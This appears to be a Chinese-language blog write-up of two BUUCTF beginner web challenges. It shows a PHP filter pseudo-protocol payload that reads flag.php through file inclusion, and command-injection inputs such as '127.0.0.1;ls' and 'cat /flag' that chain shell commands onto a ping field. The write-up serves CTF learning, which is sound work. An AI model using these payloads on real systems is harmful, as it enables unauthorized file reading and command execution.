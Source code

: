 # BUUCTF-堆叠注入-文件包含

第五周学习-3.28

**目录**

[TOC]



## Web

### [ACTF2020 新生赛]Include

提示我们是include 文件包含



<img src="https://i-blog.csdnimg.cn/blog_migrate/e7661a783f76c7121c9c1e32f5c3a0ca.png" alt="" style="max-height:260px; box-sizing:content-box;" />


打开环境点击



<img src="https://i-blog.csdnimg.cn/blog_migrate/4bf1b2df736d65b982d22629439ba320.png" alt="" style="max-height:117px; box-sizing:content-box;" />


我们include 尝试直接访问根目录 失败

```cobol
?file 是get形式
```

使用伪协议

```cobol
?file=php://filter/read=convert.base64-encode/resource=flag.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f598dfebdf45b6c1f57bb08603fab54e.png" alt="" style="max-height:123px; box-sizing:content-box;" />


base64解密



<img src="https://i-blog.csdnimg.cn/blog_migrate/d0f098618888f93baa58ea3507a91070.png" alt="" style="max-height:260px; box-sizing:content-box;" />


 [文件包含支持的伪协议_data伪协议_三月樱的博客-CSDN博客](https://blog.csdn.net/qq_50673174/article/details/124769364#t9) 

### [ACTF2020 新生赛]Exec

这题很简单就直接

```cobol
127.0.0.1;ls
127.0.0.1;ls / 发现flag文件
127.0.0.1；cat /flag
```

